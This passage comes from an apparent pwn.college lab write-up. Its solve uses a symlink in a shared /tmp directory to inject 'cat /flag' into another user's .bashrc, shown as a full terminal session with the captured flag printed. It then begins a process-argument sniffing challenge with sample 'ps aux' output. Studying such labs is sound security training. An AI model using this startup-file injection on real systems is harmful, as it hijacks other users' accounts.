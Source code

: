 Of course, shared resources like world-writable directories are still dangerous. Much later, in the Race Conditions of the Green Belt material, you'll see many ways in which such resources can cause security issues!

### Solve
**Flag: pwn.college{YqUncaFavD_kJ6HpYR8DLxYbWZX.0VM0EzNxwyNwAzNzEzW}**

```bash
hacker@shenanigans~tricky-linking:~$ rm /tmp/collab/evil-commands.txt
rm: remove write-protected regular file '/tmp/collab/evil-commands.txt'? y
hacker@shenanigans~tricky-linking:~$ ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt
hacker@shenanigans~tricky-linking:~$ /challenge/victim
Username: zardus
Password: **********
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
hacker@shenanigans~tricky-linking:~$ /challenge/victim
Username: zardus
Password: **********
pwn.college{YqUncaFavD_kJ6HpYR8DLxYbWZX.0VM0EzNxwyNwAzNzEzW}
zardus@shenanigans~tricky-linking:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@shenanigans~tricky-linking:~$ exit
logout
```
First I removed /tmp/collab/evil-commands.txt so that I can overwrite it with my own, then I created a symlink where /home/zardus/.bashrc(which is unwritable) is the target file and /tmp/collab/evil-commands.txt is where the victim thinks its writing to, then I ran /challenge/victim to send a command of cat /flag to /tmp/collab/evil-commands.txt and ran it again for the second time so that it automatically prints the flag on startup.  

### New Learnings
How to create symlinks to a .bashrc startup file.

## Sniffing Process Arguments
Poor Zardus; you've hacked him pretty heavily. But he's wisened up and secured his home directory! Game over?

Not quite! One of the things that people often don't think about when there are multiple accounts on one computer is what kind of data their command invocations leak. Remember, when you do ps aux, you get:
```bash
hacker@dojo:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
hacker         1  0.0  0.0   1128     4 ?        Ss   05:34   0:00 /sbin/docker-init -- /bin/sleep 6h
hacker         7  0.0  0.0   2736   580 ?        S    05:34   0:00 /bin/sleep 6h
hacker       102  0.4  0.0 723944 64660 ?        Sl   05:34   0:00 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       138  3.3  0.0 968792 106272 ?       Sl   05:34   0:07 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       287  0.0  0.0 717648 53136 ?        Sl   05:34   0:00 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       318  3.3  0.0 977472 98256 ?        Sl   05:34   0:06 /usr/lib/code-server/lib/node --dns-result-order=
hacker       554  0.4  0.0 650560 55360 ?        Rl   05:35   0:00 /usr/lib/code-server/lib/node /usr/lib/code-serve
hacker       571  0.0  0.0   4600  4032 pts/0    Ss   05:35   0:00 /usr/bin/bash --init-file /usr/lib/code-server/li
hacker      1172  0.0  0.0   5892  2924 pts/0    R+   05:38   0:00 ps aux
hacker@dojo:~$
```
